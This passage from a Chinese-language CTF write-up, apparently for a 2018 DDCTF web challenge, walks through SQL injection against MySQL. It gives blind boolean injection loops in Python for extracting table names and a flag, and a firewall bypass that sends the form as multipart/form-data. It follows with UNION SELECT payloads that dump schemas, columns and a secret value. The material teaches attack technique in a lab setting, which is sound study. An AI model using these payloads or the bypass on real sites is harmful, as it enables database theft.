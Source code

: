 ```sql
```

- mysql 5.7.21 共1004个字符

#### 爆表名

所有直接尝试第一层循环也就是substr()函数的第二个参数从377开始递增，同样可以得到表名ctf_key5，大概如下：

```python
for i in range(377,400):
    for j in range(33,127):
    	payload = "admin' && strcmp(ascii(substr((select group_concat(table_name) from information_schema.tables),%s,1)),%s) #" %(i,j)
```

#### 爆字段名

字段名过多这里没有采用上一种方式，尝试使用`*`代替字段名（仅在只有一个字段，一行数据时可用），直接获取flag

```python
payload = "admin' and strcmp(ascii(substr((select * from ctf_key5),%s,1)),%s) #" %(i,j)
```

## waf失效

参考：[2018 DDCTF Web 部分writeup](https://delcoding.github.io/2018/04/ddctf-writeup2/)

使用enctype="multipart/form-data"方式提交表单防火墙不拦截，更改表单直接联合查询：

```html
<form id='queryForm' action="index.php" method="post" enctype="multipart/form-data">
```

```sql
admin' union select 1,2,3,group_concat(schema_name),5 from information_schema.schemata #
admin' union select 1,2,3,group_concat(table_name),5 from information_schema.schemata #
admin' union select 1,2,3,group_concat(column_name),5 from information_schema.schemata #
admin' union select 1,2,3,secvalue,5 from ctf_key5 #
```


